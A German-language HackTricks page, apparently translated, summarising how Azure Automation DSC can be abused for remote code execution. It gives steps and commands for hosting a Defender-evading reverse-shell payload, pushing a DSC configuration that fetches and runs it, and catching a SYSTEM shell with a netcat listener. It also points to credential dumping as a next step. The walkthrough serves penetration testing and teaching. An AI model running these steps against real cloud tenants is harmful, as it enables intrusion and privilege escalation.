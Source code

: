 # Az - State Configuration RCE

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

**Überprüfen Sie den vollständigen Beitrag unter:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Zusammenfassung der Vorbereitung und Schritte zur Remote-Server (C2) Infrastruktur

#### Übersicht

Der Prozess umfasst die Einrichtung einer Remote-Server-Infrastruktur, um ein modifiziertes Nishang `Invoke-PowerShellTcp.ps1` Payload, genannt `RevPS.ps1`, zu hosten, das darauf ausgelegt ist, Windows Defender zu umgehen. Das Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python HTTP-Server bereitgestellt. Der Vorgang wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen

* **Benötigte Dateien:** Zwei PowerShell-Skripte sind erforderlich:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC) Datei, die das Payload abruft und ausführt. Sie ist von [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) erhältlich.
2. `push_reverse_shell_config.ps1`: Ein Skript, um die Konfiguration an die VM zu veröffentlichen, verfügbar auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server-/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen

* Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung zum Azure Storage Account vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Speicher-Kontext festlegen & Hochladen

* Die gezippte Konfigurationsdatei wird in einen vordefinierten Azure Storage-Container, azure-pentest, mit dem Set-AzStorageBlobContent-Cmdlet von Azure hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Kali-Box vorbereiten

* Der Kali-Server lädt das RevPS.ps1-Payload aus einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen

* Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an dem angegebenen Ort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten

* Ein Python SimpleHTTPServer wird gestartet, um die Payload zu hosten, zusammen mit einem Netcat-Listener, um eingehende Verbindungen zu erfassen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Die geplante Aufgabe führt die Payload aus und erreicht SYSTEM-Ebene Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. Credential Dumping oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zu weiterem Lernen und Kreativität im Bereich Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
